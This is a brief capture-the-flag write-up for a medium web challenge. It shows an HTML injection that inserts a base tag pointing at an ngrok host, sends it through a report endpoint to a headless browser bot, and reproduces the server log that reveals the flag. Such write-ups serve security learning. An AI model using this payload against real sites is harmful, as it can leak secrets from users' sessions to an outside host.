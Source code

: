 # Stage 5 - flagfriendly - web - medium

## Challenge
Flags for friendly Kuchenblech http://45.76.92.221:8070/

## Solution
Request
```
http://45.76.92.221:8070/report?url=http://45.76.92.221:8070/?title=%3C/title%3E%3C/head%3E%3Cbody%3E%3Cbase%20href=%22http://4de6ea04.ngrok.io%22%3E
```
Local server
```
ERROR:root:Host: 4de6ea04.ngrok.io
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate

127.0.0.1 - - [29/Dec/2019 02:57:13] "GET /junior-CSP_THE_C_IS_FOR_CYBER.gif HTTP/1.1" 200 -
```

## Links
* https://ngrok.com/

## Flag
```
junior-CSP_THE_C_IS_FOR_CYBER
```
